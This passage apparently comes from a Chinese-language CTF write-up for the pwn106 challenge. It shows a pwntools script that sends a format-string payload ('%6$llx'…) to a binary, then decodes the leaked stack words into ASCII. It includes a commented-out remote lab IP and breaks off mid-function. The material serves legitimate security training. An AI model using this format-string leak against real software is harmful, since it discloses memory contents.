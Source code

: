 ![image-20231118165615638](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231118165615638.png)



构造payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./pwn106')
#sh = host = remote('10.10.234.21',9006)
context.log_level = "debug"


payload = b"%6$llx %7$llx %8$llx %9$llx %10$llx %11$llx "
sh.sendline(payload)

sh.recvn(0x168)

output = sh.recvline()

output = output.split(b' ')

output = output[1:-1]


#"将 a1b2c3 转为 c3b2a1"
def reverse_pairs(s):
    # 将字符串分割成每两个字符一组
    pairs = [s[i:i+2] for i in range(0, len(s), 2)]
    # 反转整个列表并连接成字符串
    return ''.join(pairs[::-1])


#将 bytes 转为 str 并 反转
i = 0
for tmp in output:
    tmp = str(tmp,encoding = "utf-8")
    tmp = reverse_pairs(tmp)
    output[i] = tmp
    i = i + 1

#合并字符串
s = ""
for tmp in output:
    s += tmp

#将字符串转为数值，再转为对于的ascii
def hex_to_str(hex_str):
    # 将16进制字符串分割成每两个字符一组
    hex_pairs = [hex_str[i:i+2] for i in range(0, len(hex_str), 2)]
    # 将每个16进制对转换为整数，然后转换为对应的字符
    chars = [chr(int(pair, 16)) for pair in hex_pairs]
    # 将字符列表连接成字符串
```